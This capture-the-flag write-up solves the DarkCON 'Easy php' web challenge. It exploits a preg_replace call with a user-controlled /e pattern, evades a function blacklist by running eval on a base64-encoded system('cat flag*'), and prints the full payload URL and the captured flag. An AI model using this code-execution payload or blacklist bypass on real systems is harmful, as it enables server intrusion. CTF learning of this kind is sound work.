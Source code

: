 Easy php
========
category: web
challenge-link:http://easy-php.darkarmy.xyz/

>In this challenges there was no hint/desc

solution
---------


when we open the challenge link we get a web page with text ``Welcome DarkCON CTF !!``

in the robots.txt it says ``?lmao``
when we put ``challenge-link:http://easy-php.darkarmy.xyz/?lmao`` we will get the php source code of index.php
source code:
```php
<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```

Now we have to pass two GET parameter to the url ``bruh`` and ``nic3``
we get code exicution because of the ``preg_replace()`` function

But the `` is_payload_danger()`` function filters our input so some functions like system etc are blacklisted we have to bypass that
so i used base64 encoded the payload and use eval and decode function to get the flag

base64 of ``system('cat flag*') ``

payload:
```url
http://easy-php.darkarmy.xyz/?nic3=/Dark/e&bruh=eval(base64_decode(%27c3lzdGVtKCdjYXQgZmxhZyonKTsK%27))
```
flag:
darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}




